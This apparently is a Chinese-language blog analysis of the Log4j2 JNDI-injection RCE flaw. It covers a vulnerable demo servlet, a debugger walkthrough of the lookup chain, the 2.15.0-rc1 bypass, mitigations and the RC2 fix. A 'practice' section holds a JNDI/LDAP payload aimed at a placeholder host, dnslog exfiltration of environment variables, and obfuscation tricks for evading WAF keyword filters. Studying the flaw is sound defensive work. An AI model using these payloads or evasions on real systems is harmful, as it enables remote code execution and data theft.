Log4j2 RCE
目录
本质上是一个JNDI注入，屌得一批，之前掀起大热。
Log4j?
简单点，就是一个拿来打印日志的库，Log4j2是Log4j超级增强版。
分析
影响范围 Java类产品：Apache Log4j 2.x < 2.15.0-rc2 受影响的应用及组件（包括但不限于）如下：Apache Solr、Apache Flink、Apache Druid、Apache Struts2、pring-boot-strater-log4j2等。（来自腾讯云社区）
建立一个servlet（嫖自腾讯云社区）
@WebServlet(name = "ServletDemo", value = "/ServletDemo")
public class ServletDemo extends HttpServlet {
@Override
protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
Logger logger = LogManager.getLogger(ServletDemo.class.getName());
PrintWriter printWriter = response.getWriter();
printWriter.println("Log4j2 JNDI injection");
String payload = request.getParameter("msg");
if (payload == null){
payload = "input msg parameter: ?msg=helloworld";
}
printWriter.println("execute paylaod: " + payload);
logger.error(payload);
printWriter.flush();
printWriter.close();
}
@Override
protected void doPost(HttpServletRequest request, HttpServletResponse response) throws IOException {
Logger logger = LogManager.getLogger(ServletDemo.class.getName());
PrintWriter printWriter = response.getWriter();
printWriter.println("Log4j2 JNDI injection");
String payload = request.getParameter("msg");
if (payload == null){
payload = "input msg parameter: ?msg=helloworld";
}
printWriter.println("execute paylaod: " + payload);
logger.error(payload);
printWriter.flush();
printWriter.close();
}
}
正常运行时，logger.error会把日志输出到服务器面板。

我们跟进一下这个logger.error。 下断点，调试开搞。




先调用logIfEnabled函数判断当前事件类型的优先级，如果优先级不够就不会进行之后的代码操作
日志级别
log4j2作为一个日志处理组件，它对日志事件的优先级进行了分类以方便后续的处理 其内置的日志级别标准如下，各个级别（intLevel）由数值表示，级别越高数值越小。

在上面对logIfEnabled的跟进过程中我们可以看到，只有当intLevel >= level.intLevel()，即当前事件的intLevel小于intLevel常量值时才会继续进行代码。 而默认的intLevel常量值为200，即error级别，这就意味着在默认情况下只有优先级大于等于error的事件才会继续执行代码，启用日志打印。（本文是用的logger.error触发，所以同理也可以用logger.fatal触发） 这个intLevel常量值可以通过配置文件和Configurator.setLevel函数进行修改，这里就不再赘述。
将断点断在org/apache/logging/log4j/core/appender/AbstractOutputStreamAppender.java中的directEncodeEvent，继续调试

模式布局
这里的getLayout方法会获取日志打印的模式布局，也就是日志的格式化形式。 默认的模式布局为%d{yyyy-MM-dd HH:mm:ss.SSS} [%t] %level %logger{36} - %msg%n，也就是上图中的那样。
当在解析这串格式化字符串时时，会结合List<PatternConverter>转换器列表和List<FormattingInfo>格式信息列表这两个列表进行格式化。
格式化字符串中我们可以看到有如%d，%t等一系列占位符，这些占位符的意义是用于标识转换器，表示当前位置的字符串应该由何种转换器处理。

接下来我们跟进encode方法

toSerializable方法中会先获取PatternConverter 转换器列表，然后用不同的转换器处理传入的数据


log4j2 rce是MessagePatternConverter这个转换器出了问题，所以我们快进到MessagePatternConverter#format 它最开始会先去获得当前event信息中的message信息 然后在后面判断config与noLookups属性的状况 再然后（重点）去判断msg信息中是否存在字符串“${”，如果存在就会把$及后面的字符串切割出来存放到变量value中，于132行将其作为参数传入replace方法 最终传入到InitialContext.lookup参数中，完成jndi注入



总结
在log4j2中如果触发了error级别以上的事件，log4j2会调用不同转换器去分析事件用于格式化输出的日志，在MessagePatternConverter这个转换器中会去获取事件中的message信息（也就是传入logger.error等函数中的String参数）进行处理，如果message信息中存在"${"字符串，就会根据${}中内容的prefix选取对应的Lookup处理器进行处理，如果是prefix是jndi就会造成jndi注入
2.15.0 RC1绕过
前提条件：目标环境的log4j2配置文件中的%msg改成了%msg{lookup} ，或者通过API动态修改启用了lookup just like this
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
<Appenders>
<Console name="Console" target="SYSTEM_OUT">
<PatternLayout pattern="[%-level]%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg{lookups}%n"/>
</Console>
</Appenders>
<Loggers>
<Root level="info">
<AppenderRef ref="Console"/>
</Root>
</Loggers>
</Configuration>
但这个前提条件属实苛刻，所以这个绕过也属实有点鸡肋。
payload:
${jndi:ldap://xxx.xxx.xxx.xxx:xxxx/ ExportObject} 在host/后加了个空格
简要分析过程：在进行jndilookup操作时，会判断host是否是白名单里的host(均为内网ip或域名)，如果我们在host/后加一个空格，就会导致其校验函数抛出错误，但是抛出错误后程序并没有进行相应处理，导致最后进行了成功lookup

修复建议
（引用自安全客平台）
修复建议：
- 升级Apache Log4j2所有相关应用到最新版。
- 升级JDK版本，建议JDK使用11.0.1、8u191、7u201、6u211及以上的高版本。但仍有绕过Java本身对Jndi远程加载类安全限制的风险。
临时建议：
- jvm中添加参数 -Dlog4j2.formatMsgNoLookups=true （版本>=2.10.0）
- 新建log4j2.component.properties文件，其中加上配置log4j2.formatMsgNoLookups=true （版本>=2.10.0）
- 设置系统环境变量：LOG4J_FORMAT_MSG_NO_LOOKUPS=true （版本>=2.10.0）
- 对于log4j2 < 2.10以下的版本，可以通过移除JndiLookup类的方式。
RC2修复
try{
} catch (URISyntaxException ex) {
LOGGER.warn("Invalid JNDI URI - {}", name);
return null;
}
return (T) this.context.lookup(name);
catch里直接return了。
实战
数据带外
使用 ${hostName}、${env:USERDOMAIN}、${env:COMPUTERNAME}等配合 dnslog 实现数据外带。

关键字混淆
在 Lookup 功能处理时的关键字替换过程中，提到了可以使用
:-进行一个截取和赋值的操作，因此我们可以用其来混淆流量，分隔关键字。例如： jndi 可以尝试混淆为： ${:::::-j}${what:-n}${ls:-d}${1QAZ2wxs:-i}
并可以将其嵌套使用，可以用来绕过一些不完善的正则、关键字的匹配。

upper、lower 混淆
log4j中支持lower，upper两个前缀，分别用于将字符段小写和大写，可以用这个绕过一些低级waf

同时存在一些字符如 ı(\u0131) 经过 toUpperCase 就会转变成 I。从而绕过了 jndi 关键词的拦截。
嵌套
顾名思义

关键字
logger.
Reference
https://www.anquanke.com/post/id/263325#h2-6
https://cloud.tencent.com/developer/article/1917881
http://wjlshare.com/archives/1674
https://xz.aliyun.com/t/10649#toc-2